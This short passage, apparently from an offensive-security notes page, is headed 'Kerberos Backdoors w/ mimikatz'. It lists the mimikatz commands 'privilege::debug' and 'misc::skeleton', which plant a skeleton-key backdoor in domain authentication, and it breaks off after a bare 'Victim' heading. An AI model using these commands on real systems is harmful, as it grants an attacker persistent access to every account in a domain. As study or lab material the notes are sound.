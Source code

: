 <figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

## Kerberos Backdoors w/ mimikatz

**Victim**&#x20;

```
cd Downloads && mimikatz.exe
```

**Victim - Mimikatz**

```
privilege::debug
misc::skeleton
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>



**Victim**
